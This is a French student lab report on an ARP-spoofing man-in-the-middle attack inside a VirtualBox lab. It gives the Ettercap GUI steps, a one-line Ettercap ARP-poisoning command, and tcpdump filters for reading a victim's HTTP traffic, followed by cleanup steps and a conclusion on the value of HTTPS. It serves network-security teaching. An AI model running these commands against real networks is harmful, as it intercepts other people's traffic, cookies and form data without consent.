







# Rapport TP : Attaque Man-in-the-Middle par ARP Spoofing

## Configuration Réseau

**Adresses IP :**

```
┌──────────────────────────────────────────────────────┐
│                 Réseau 192.168.100.0/24              │
├──────────────────────────────────────────────────────┤
│                                                      │
│  ┌──────────────┐      ┌──────────────┐      ┌──────────────┐
│  │   Victime    │──────│  Attaquant   │──────│   Routeur    │
│  │ 192.168.100.101│    │192.168.100.102│    │ 192.168.100.1 │
│  │   Windows    │      │    Kali      │      │   Linux      │
│  └──────────────┘      └──────────────┘      └──────────────┘
│          │                     │                     │
│          │         Trafic normal (avant attaque)    │
│          └─────────────────────┼─────────────────────┘
│                                │
│                   Trafic intercepté (après attaque) │
│          └─────────────────────┼─────────────────────┘
│                                │
└──────────────────────────────────────────────────────┘
```

## Étape 1 : Préparation de l'attaquant (Kali Linux)

### Configuration réseau :

.

### ARP normal :

.

### Tester la connectivité :

```bash
# Tester avec la victime
ping -c 3 192.168.100.101

# Tester avec le routeur
ping -c 3 192.168.100.1
```

## Étape 2 : Vérification avant attaque

### Sur la victime (Windows) :

.

### Sur l'attaquant :

```bash
# Voir les machines sur le réseau
arp -a

# Scanner le réseau rapidement
nmap -sn 192.168.100.0/24

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-19 02:49 EST
Nmap scan report for dhcp-dns.tp.lan (192.168.100.1)
Host is up (0.00034s latency).
MAC Address: 08:00:27:0D:36:B8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for www.tp.lan (192.168.100.2)
Host is up (0.00034s latency).
MAC Address: 08:00:27:C8:F0:42 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.100.101
Host is up (0.00036s latency).
MAC Address: 08:00:27:3A:F4:66 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.100.102
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.94 seconds
```

## Étape 3 : Lancement de l'attaque avec Ettercap

### Méthode 1 : Interface graphique

```bash
# Lancer Ettercap
sudo ettercap -G
```

**Étapes dans Ettercap :**

1. **Sniff → Unified Sniffing** → Sélectionner `eth0`
2. **Hosts → Scan for hosts** (attendre le scan)
3. **Hosts → Hosts list** (voir les machines trouvées)
4. Sélectionner `192.168.100.1` → **Add to Target 1**
5. Sélectionner `192.168.100.101` → **Add to Target 2**
6. **Mitm → ARP poisoning** → Cocher "Sniff remote connections" → OK

.

### Méthode 2 : Ligne de commande

```bash
# Attaque rapide en ligne de commande
sudo ettercap -T -q -i eth0 -M arp:remote /192.168.100.1// /192.168.100.101//
```

## Étape 4 : Observation des effets

### Sur la victime :

```cmd
# Vérifier la table ARP après attaque
arp -a
```

# Résultat :

.

L'adresse MAC de l'attaquant était : 08:00:27:63:b0:05
et celle du routeur : 08:00:27:0d:36:b8.
Cependant, sur l'image, on constate que cette dernière (celle du routeur) a changé et correspond désormais à l'adresse de l'attaquant. De ce fait, la table MAC de la victime est **empoisonnée** et son trafic est redirigé vers l'attaquant.

### Test de ping depuis la victime :

```cmd
# Le trafic passe maintenant par l'attaquant
ping 8.8.8.8

# Traceroute pour voir le chemin
tracert 8.8.8.8
```

## Étape 5 : Capture du trafic

### Sur l'attaquant :

```bash
# Voir le trafic intercepté en temps réel
sudo tcpdump -i eth0 -n host 192.168.100.101

# Filtrer seulement le trafic HTTP
sudo tcpdump -i eth0 -n -A 'tcp port 80 and host 192.168.100.101'
```

### Avec Wireshark sur l'attaquant :

```bash
# Lancer Wireshark
sudo wireshark
```

.

.

## Étape 6 : Démonstration d'interception

### 1. Sur la victime, visitez :

## Étape 7 : Nettoyage

### Pour arrêter l'attaque :

```bash
# Méthode 1 : Tuer Ettercap
sudo pkill ettercap

# Vider les caches
sudo ip neigh flush all
```

### Sur la victime :

```cmd
:: Vider le cache ARP
arp -d *

:: Rétablir la bonne adresse MAC
arp -s 192.168.100.1 00-0C-29-XX-XX-XX
```

## Résultats Observés

### Tableau des tests :

| Test         | Victime (101)  | Attaquant (102)   | Observation             |
| ------------ | -------------- | ----------------- | ----------------------- |
| Ping 8.8.8.8 | Fonctionne     | Trafic visible    | Trafic intercepté       |
| ARP table    | MAC changée    | -                 | Routeur = MAC attaquant |
| HTTP site    | Page s'affiche | Contenu lisible   | Données en clair        |
| HTTPS site   | Page s'affiche | Données chiffrées | Impossible à lire       |

### Ce qui fonctionne :

- **ARP Poisoning** : La victime croit que l'attaquant est le routeur
- **Interception HTTP** : Pages web, formulaires, cookies lisibles
- **Transparence** : La victime ne remarque rien

### Ce qui ne fonctionne pas :

- **HTTPS** : Le chiffrement protège le contenu
- **Connexions sécurisées** : SSH, VPN, etc.

## Conseils Pratiques

### Pour réussir le TP :

1. **Vérifiez les IP** avant de commencer
2. **Testez la connectivité** entre toutes les machines
3. **Utilisez Wireshark** pour voir ce qui se passe
4. **Notez les adresses MAC** avant/après l'attaque

## Conclusion

Ce TP a montré :

1. La facilité d'exécuter une attaque MITM
2. L'importance du chiffrement (HTTPS vs HTTP)
3. La nécessité de surveiller son réseau
4. Les méthodes basiques de protection

---

_Réalisé le 19/01/2026_
**Nom de l'étudiant :** [METOGHE OBIANG Simplice Dariel]
